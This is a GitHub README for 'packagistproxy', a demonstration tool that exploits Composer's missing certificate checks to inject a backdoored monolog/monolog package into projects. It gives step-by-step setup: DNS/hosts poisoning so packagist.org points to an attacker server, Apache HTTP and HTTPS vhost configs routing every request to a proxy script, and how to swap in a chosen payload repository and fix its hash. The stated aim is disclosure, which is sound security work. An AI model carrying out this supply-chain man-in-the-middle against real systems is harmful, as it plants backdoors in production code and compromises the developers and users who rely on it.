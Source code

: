 # packagistproxy
Backdoor projects that use composer (exploit https://github.com/composer/composer/issues/1074)

This exploits composer's lack of certificate checking to drop a backdoored verson of an included library into a projects codebase.

This is for demonstration only, etc, etc. Hopefully this will show people why they shouldn't automatically run composer when deploying code into production until composer fixes their certificate checking.

# Setup

To exploit this issue, you have to get in the middle of a user's connection to packagist.org. For demo's, it's easiest to set a victim's dns to point to the attacker, but there are obviously plenty of other ways to get in the middle of a connection.

Once we're a MITM, we override a packagist's package definition with our own. It looks like composer uses that last defined definition for a package, so adding a extra provider at the end of packages.json seems to work well for now.

In this demo, the provider (re-)defines monolog/monolog. Not to pick on them as a project, but's it a popular one and in use by MediaWiki. The new definition points to my own version of monolog (https://github.com/Stype/monolog) for all versions of monolog currently defined (up to 1.15.0).

If you want change the payload (you probably do), update monolog.json to point to the repository and commit of your choice. Then run

```
sha256sum monlog.json
```

to get the sha256 hash of that file. You'll need to update the hash in p-attack.json. The proxy.php script will automatically calculate the sha256 of p-attack.json when inserting the definition into package.json.

# Poisen DNS

For testing, on the victim I set a local hosts directive to point to my webserver (192.168.1.143).

/etc/hosts:
```
192.168.1.143	packagist.org
```


On my webserver, I have apache running with both http and https sites defined. Composer randomly uses both http and https, so the server needs to respond to both.

ssl.conf:
```
<VirtualHost 192.168.1.143:443>
  ServerName packagist.org
  DocumentRoot /srv/www/htdocs/packagistproxy

  ErrorLog /var/log/apache2/ssl-error.log
  TransferLog /var/log/apache2/ssl-access.log
  SSLEngine on
  SSLCertificateFile /etc/apache2/ssl.crt/server.crt
  SSLCertificateKeyFile /etc/apache2/ssl.key/server.key

  RewriteEngine on
  RewriteRule ^(.*)$ /proxy.php?url=$1
</VirtualHost>
```

and vhosts.conf:
```
<VirtualHost 192.168.1.143:80>
  ServerName packagist.org
  DocumentRoot /srv/www/htdocs/packagistproxy
  RewriteEngine on
  RewriteRule ^(.*)$ /proxy.php?url=$1
</VirtualHost>
```




